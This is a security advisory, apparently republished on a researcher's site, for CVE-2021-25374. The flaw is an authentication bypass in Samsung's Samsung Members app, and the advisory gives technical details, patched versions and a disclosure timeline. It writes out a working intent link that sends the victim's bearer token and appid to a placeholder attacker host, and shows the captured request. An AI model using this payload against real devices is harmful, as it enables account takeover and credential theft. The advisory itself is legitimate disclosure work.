 ```yaml
---
layout: page
title: CVE-2021-25374 Details
permalink: /cves/cve-2021-25374
---
```


#### Original post: [https://labs.f-secure.com/advisories/samsung-s20-gain-access-to-samsung-account/](https://labs.f-secure.com/advisories/samsung-s20-gain-access-to-samsung-account/)

|    **Product**    | Samsung phones with Samsung Members (version dependent on OS) |
|    **Severity**   |                  High                  |
| **CVE Reference** |             CVE-2021-25374             |
|      **Type**     |          Authentication Bypass         |

## Description

F-Secure looked into exploiting the Samsung S20 device for Tokyo Pwn2Own 2020. An issue was discovered that would have allowed an attacker to gain access to the victim's Samsung Account. 

## Technical Details

Samsung Members (com.samsung.android.voc) is an application which offers tips and solutions for Samsung device owners. For US and South Korean users, the app also offers a portal to login to Samsung Members, the official Samsung loyalty program.

A webview within the Samsung Rewards section of the application could be used to obtain access to someone's Samsung account. The following launchable intent could be used to replicate this issue:

```
<a href="intent://launch?url=http://<attacker IP>:8000/yay.html&action=sso&from=ZZ&iso=ZZ#Intent;scheme=samsungrewards;package=com.samsung.android.voc;action=android.intent.action.VIEW;end;">yay click here yay</a>
```

Users that have a vulnerable version of Samsung Members installed are at risk of having their Samsung Account compromised via the above browsable link. After tapping the above link on a vulnerable phone, the application will make a HTTP request similar to the following, which contains the user’s authorization bearer token and appid. In this scenario, an attacker controls the IP address located at "<attacker IP>":

```
GET /yay.html HTTP/1.1
Host: <attacker IP>:8000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 10; SM-G985F Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/85.0.4183.127 Mobile Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
authorization: Bearer <bearer value>
x-osp-appid: <appid value>
X-Requested-With: com.samsung.android.voc
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

Using these two pieces of information, it is possible for an attacker to make a series of requests that would give the attacker access to the user’s Samsung Account. F-Secure developed a Python Proof of Concept (PoC) script that would automate the series of requests and print the account's profile information. The screenshot below shows the PoC script in action (left) and what the phone displays during exploitation (right):

<div align="center">
    <img src="/assets/my_cves/cve-2021-25374_1.png">
</div>

The PoC script can be found on Yogehi's GitHub page at [https://github.com/Yogehi/CVE-2021-25374_Samsung-Account-Access](https://github.com/Yogehi/CVE-2021-25374_Samsung-Account-Access).

## Remedial Action

Samsung has released patched versions of Samsung Members which addresses the above issue. The version that should be downloaded depends on the OS of the device itself.

* Devices running Android O (8.1) and below should download Samsung Members version 2.4.83.9 or above
* Devices running Android P (9.0) and above should download Samsung Members version 3.9.00.9 or above

## Credits

This issue was discovered by Ken Gannon.

## Timeline

|    **Date**    | **Summary** |
|   03/10/2020   | Issue disclosed to Samsung Mobile Security |
|   03/10/2020   | Issue assigned to a Samsung Security Analyst |
|   25/10/2020   | Samsung confirms the vulnerability and rates it as a high risk issue |
|   11/01/2021   | Follow up sent to Samsung |
|   11/01/2021   | Samsung responded to follow up saying a patch is still being worked on |
|   06/04/2021   | Patch released, Samsung initiates process for bug bounty reward |
|   06/04/2021   | CVE Assigned |
|   28/04/2021   | Advisory Published |